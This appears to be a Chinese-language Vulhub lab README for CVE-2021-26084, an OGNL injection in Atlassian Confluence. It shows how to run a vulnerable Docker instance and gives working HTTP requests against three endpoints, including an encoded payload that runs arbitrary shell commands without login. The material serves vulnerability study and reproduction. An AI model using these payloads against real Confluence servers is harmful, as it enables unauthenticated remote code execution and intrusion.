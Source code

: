 # Atlassian Confluence Webwork 前台GNL表达式注入命令执行漏洞（CVE-2021-26084）

Atlassian Confluence是企业广泛使用的wiki系统，其部分版本中存在OGNL表达式注入漏洞。攻击者可以通过这个漏洞，无需任何用户的情况下在目标Confluence中执行任意代码。

参考链接：

- https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html
- https://jira.atlassian.com/browse/CONFSERVER-67940
- https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
- https://github.com/h3v0x/CVE-2021-26084_Confluence

## 环境搭建

执行以下命令启动一个Confluence 7.4.10 data center 试用版本服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8090`即可进入安装向导，参考[CVE-2019-3396](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396)这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为`db`，数据库名称`confluence`，用户名密码均为`postgres`。

![](3.png)

## 漏洞利用

有多个接口可以触发这个OGNL表达式注入漏洞。

### /pages/doenterpagevariables.action

这个接口不需要登录即可利用，发送如下数据包，即可看到`233*233`已被执行：

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

![](2.png)

执行任意命令：

```
queryString=%5cu0027%2b%7bClass.forName%28%5cu0027javax.script.ScriptEngineManager%5cu0027%29.newInstance%28%29.getEngineByName%28%5cu0027JavaScript%5cu0027%29.%5cu0065val%28%5cu0027var+isWin+%3d+java.lang.System.getProperty%28%5cu0022os.name%5cu0022%29.toLowerCase%28%29.contains%28%5cu0022win%5cu0022%29%3b+var+cmd+%3d+new+java.lang.String%28%5cu0022id%5cu0022%29%3bvar+p+%3d+new+java.lang.ProcessBuilder%28%29%3b+if%28isWin%29%7bp.command%28%5cu0022cmd.exe%5cu0022%2c+%5cu0022%2fc%5cu0022%2c+cmd%29%3b+%7d+else%7bp.command%28%5cu0022bash%5cu0022%2c+%5cu0022-c%5cu0022%2c+cmd%29%3b+%7dp.redirectErrorStream%28true%29%3b+var+process%3d+p.start%28%29%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3b+var+bufferedReader+%3d+new+java.io.BufferedReader%28inputStreamReader%29%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while%28%28line+%3d+bufferedReader.readLine%28%29%29+%21%3d+null%29%7boutput+%3d+output+%2b+line+%2b+java.lang.Character.toString%2810%29%3b+%7d%5cu0027%29%7d%2b%5cu0027
```

![](1.png)

### /pages/createpage-entervariables.action

这个路径也不需要用户登录：

```
POST /pages/createpage-entervariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

### /pages/createpage.action

这个接口需要一个可以创建页面的用户权限：

```
GET /pages/createpage.action?spaceKey=EX&src=quick-create&queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027 HTTP/1.1
Host: 192.168.1.162:8090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.162:8090/template/custom/content-editor.vm
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: JSESSIONID=7B35600F54A9E303CE8C277ED960E1E7; seraph.confluence=524289%3A2ac32a308478b9cb9f0e351a12470faa4f2a928a
Connection: close


```

